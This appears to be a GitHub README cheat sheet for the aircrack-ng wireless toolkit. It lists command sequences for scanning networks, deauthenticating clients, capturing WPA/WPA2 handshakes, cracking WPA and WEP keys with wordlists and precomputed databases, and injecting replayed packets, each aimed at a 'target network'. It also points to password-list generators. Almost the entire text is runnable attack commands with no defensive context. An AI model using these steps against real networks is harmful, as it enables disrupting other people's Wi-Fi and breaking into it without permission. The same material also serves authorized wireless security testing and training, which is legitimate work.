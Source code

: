 # Usage of some tools

In this example
- `mon0` is the name of your interface in monitor mode
- `00:14:6C:7E:40:80` is the bssid of target network
- `00:09:5B:EB:C5:2B` is the bssid of your network
- `-c X` is the channel of target network
- `out` is the filename to capture the WPA handshake
- `password.txt` is the filename to brute force
- `password.txt` is the file contains name of target network
- `crackwpa` is the file you write target network name in

## Scan network around

```
airodump-ng mon0
```

![image](https://user-images.githubusercontent.com/90561566/166110658-56663408-8ef9-4681-a5d1-4e7ec4bd3562.png)

## [Deauthentication](https://www.aircrack-ng.org/doku.php?id=deauthentication)

You can try it: https://github.com/lucthienphong1120/xDeauth

```
aireplay-ng --deauth 0 -a 00:14:6C:7E:40:80 mon0
or
aireplay-ng -0 0 -a 00:14:6C:7E:40:80 mon0
```

Ctrl+C to stop deauth

## WPA/WPA2 Handshake capture

```
airodump-ng -c 6 --bssid 00:14:6C:7E:40:80 -w out mon0
aireplay-ng --deauth 0 -a 00:14:6C:7E:40:80 mon0
```

## [ARP Request Replay Attack](https://www.aircrack-ng.org/doku.php?id=arp-request_reinjection)

```
airodump-ng -c 6 --bssid 00:14:6C:7E:40:80 -w out mon0
aireplay-ng -0 10 -a 00:14:6C:7E:40:80 mon0
aireplay-ng -3 -b 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B mon0
```

## [Cracking WPA/WPA2](https://www.aircrack-ng.org/doku.php?id=cracking_wpa)

```
airodump-ng -c 6 --bssid 00:14:6C:7E:40:80 -w out mon0
aireplay-ng --deauth 0 -a 00:14:6C:7E:40:80 mon0
(wait handshake)
aircrack-ng -w password.txt out*.cap 
```

## Crack WEP by ARP request

```
airodump-ng -c 6 --bssid 00:14:6C:7E:40:80 -w out mon0
aireplay-ng -1 100 -a 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B mon0
aireplay-ng -3 0 -b 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B mon0
(wait to capture about 70.000 packet)
aircrack-ng -a 1 out*.cap
```

## Speed up crack with database

```
sudo apt install sqlite3
airolib-ng crackwpa --import passwd password.txt
airolib-ng crackwpa --import essid essid.txt
airolib-ng crackwpa --stats # to check information about your database before batch
airolib-ng crackwpa --clean all # to clean the database from old junk and integrity check
(you can skip 2 lines above)
airolib-ng crackwpa --batch
aircrack-ng -r crackwpa out*.cap
```

## Brute force tools

Aircrack often uses brute force with some other tools as follows:

- [Cupp](https://github.com/lucthienphong1120/cupp)
- /usr/share/wordlists/rockyou.txt.gz
- [Crunch](https://www.kali.org/tools/crunch)

```
crunch [min] [max] [charset] -t [pattern] -o [path file]
```

## [Interactive packet replay](https://www.aircrack-ng.org/doku.php?id=interactive_packet_replay)

Natural Packet Replay

```
aireplay-ng -2 -b 00:14:6C:7E:40:80 -d 00:09:5B:EB:C5:2B -t 1 mon0
```

Modified Packet Replay

```
aireplay-ng -2 -b 00:14:6C:7E:40:80 -t 1 -c 00:09:5B:EB:C5:2B -p 0841 mon0
```

Rebroadcast the packet and thereby generate new IVs

```
aireplay-ng -2 -p 0841 -c 00:09:5B:EB:C5:2B -b 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82  mon0
```























